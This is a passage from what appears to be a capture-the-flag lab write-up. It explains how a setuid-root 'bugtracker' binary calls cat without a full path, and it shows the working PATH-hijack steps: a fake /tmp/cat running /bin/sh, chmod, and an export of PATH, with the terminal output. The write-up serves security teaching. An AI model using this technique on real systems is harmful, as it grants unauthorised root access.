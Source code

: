 	-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
	/usr/bin/bugtracker: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=b87543421344c400a95cbbe34bbc885698b52b8d, not stripped

There is a suid set on that binary, which is a promising exploitation path.

>*Commonly noted as SUID (Set owner User ID), the special permission for the user access level has a single function: A file with SUID always executes as the user who owns the file, regardless of the user passing the command. If the file owner doesn't have execute permissions, then use an uppercase S here.*
>
>*In our case, the binary 'bugtracker' is owned by root & we can execute it as root since it has SUID set.*

So we will run the application to observe how it behaves:

	robert@oopsie:/var/www/html/cdn-cgi/login$ /usr/bin/bugtracker
	/usr/bin/bugtracker
		
	------------------
	: EV Bug Tracker :
	------------------
	
	Provide Bug ID: 12
	12
	---------------
	
	cat: /root/reports/12: No such file or directory


The tool is accepting user input as a name of the file that will be read using the `cat` command, however, it does not specifies the whole path to file `cat`, so we might be able to exploit this.

We navigate to `/tmp` directory and create a file named cat with the following content:
`/bin/sh`

We then set the execute privileges:
`chmod +x cat`

And, in order to exploit this we can add the `/tmp` directory to the PATH environmental variable:
`export PATH=/tmp:$PATH`

>*PATH is an environment variable on Unix-like operating systems, DOS, OS/2, and Microsoft Windows, specifying a set of directories where executable programs are located.*

Now, when we check the $PATH, we can read the following output:

	robert@oopsie:/tmp$ export PATH=/tmp:$PATH
	export PATH=/tmp:$PATH
	robert@oopsie:/tmp$ echo $PATH
	echo $PATH
	/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games

Finally, we execute the `bugtracker` from `/tmp` directory:

	robert@oopsie:/tmp$ bugtracker
	bugtracker
	